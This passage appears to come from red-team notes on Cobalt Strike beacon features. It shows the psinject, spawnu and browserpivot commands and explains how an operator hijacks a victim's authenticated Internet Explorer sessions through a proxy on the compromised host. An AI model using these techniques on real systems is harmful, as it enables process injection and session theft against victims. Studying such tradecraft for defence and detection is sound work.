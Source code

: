 ![](../../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)

### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.

The way this attack works is best explained with an example:

* Victim log's in to some web application using Internet Explorer.
* Attacker/operator creates a browser pivot by issuing a `browserpivot` command
* The beacon creates a proxy server on the victim system (in Internet Explorer process to be more precise) by binding and listening to a port, say 6605
* Team server binds and starts listening to a port, say 33912
* Attacker can now use their teamserver:33912 as a web proxy. All the traffic that goes through this proxy will be forwarded/traverse the proxy opened on the victim system via the Internet Explorer process (port 6605). Since Internet Explorer relies on WinINet library for managing web requests and authentication, attacker's web requests will be reauthenticated allowing the attacker to view same applications the victim has active sessions to without being asked to login.

Browser pivotting in cobalt strike:

{% code title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode %}
